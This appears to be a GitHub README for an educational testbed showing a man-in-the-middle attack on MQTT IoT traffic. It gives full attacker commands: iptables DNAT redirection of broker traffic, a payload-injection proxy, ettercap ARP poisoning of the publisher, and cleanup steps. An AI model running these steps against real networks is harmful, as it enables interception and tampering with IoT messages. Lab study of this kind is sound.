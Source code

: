 # Man-in-the-middle-mitm-attack-on-MQTT-IoT-based-communication
A complete tutorial and toolkit for demonstrating a Man-in-the-Middle (MITM) attack on the MQTT protocol. This project is for educational and cybersecurity research purposes to understand IoT vulnerabilities. Includes Python (Asyncio, Paho-MQTT) for a payload-injection proxy and bash scripts using ettercap (ARP spoofing) and iptables.


## Bash commands to run in attackers terminal

# package installations
sudo apt-get update
sudo apt-get install python3-venv
# create virtual env using "python3 -m venv cps_testbed" and activate using "source cps_testbed/bin/activate"
pip3 install paho-mqtt
sudo apt install -y python3-pip tcpdump dsniff iptables
sudo apt install ettercap-common ettercap-graphical
# make mqtt_tcp_mitm.py executable
chmod +x mqtt_tcp_mitm.py

## Bash commands to run in brokers terminal
install Mosquitto
open a cmd in administrative mode
configure the mosquitto.conf to listen to 0.0.0.0 1883 port and run
net start mosquitto

## Bash commands to run in publisher's terminal
>> run the publisher code

## Bash commands to run in subscriber's terminal
>> run the subscriber code

## Bash commands to run in attackers terminal

# Enable forwarding
sudo sysctl -w net.ipv4.ip_forward=1
# Redirect incoming TCP packets that are *destined to the broker IP:1883* to local attacker:1883
sudo iptables -t nat -A PREROUTING -p tcp -d $BROKER --dport 1883 -j DNAT --to-destination $ATTACKER:1883
>> sudo iptables -t nat -A PREROUTING -p tcp -d 192.168.1.2 --dport 1883 -j DNAT --to-destination 192.168.1.190:1883
# Masquerade outgoing proxied connections so replies go back correctly
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
# Start mitm proxy on attacker pi
python3 mqtt_tcp_mitm.py --listen-host 0.0.0.0 --listen-port 1883 --upstream-host $BROKER --upstream-port 1883
>> python3 mqtt_tcp_mitm.py --listen-host 0.0.0.0 --listen-port 1883 --upstream-host 192.168.1.2 --upstream-port 1883
# You should see: MITM proxy listening on 0.0.0.0:1883 forwarding to 192.168.1.2:1883 as my broker was 192.168.1.2
# Open another terminal in attacker pi
# poison Publishers ARP cache
sudo ettercap -T -M arp:remote /$Publisher//$BROKER/
for example >> sudo ettercap -T -M arp:remote /192.168.1.183//192.168.1.2/
# Observe network traffic in first attacker pi terminal which shows changed and original values.
# Observe changed values printed in subscribers print in terminal

## Cleanup after all this
# 1. close the ettercap by pressing q
# 2. run the following in attacker pi terminal
# remove iptables rules (run exact deletions)
>> sudo iptables -t nat -D PREROUTING -p tcp -d $BROKER --dport 1883 -j DNAT --to-destination $ATTACKER:1883
>> sudo iptables -t nat -D POSTROUTING -j MASQUERADE
# disable forwarding if you enabled it and want to revert
>> sudo sysctl -w net.ipv4.ip_forward=0
# 3. stop mosquitto using the following in broker's admin terminal
>> net stop mosquitto

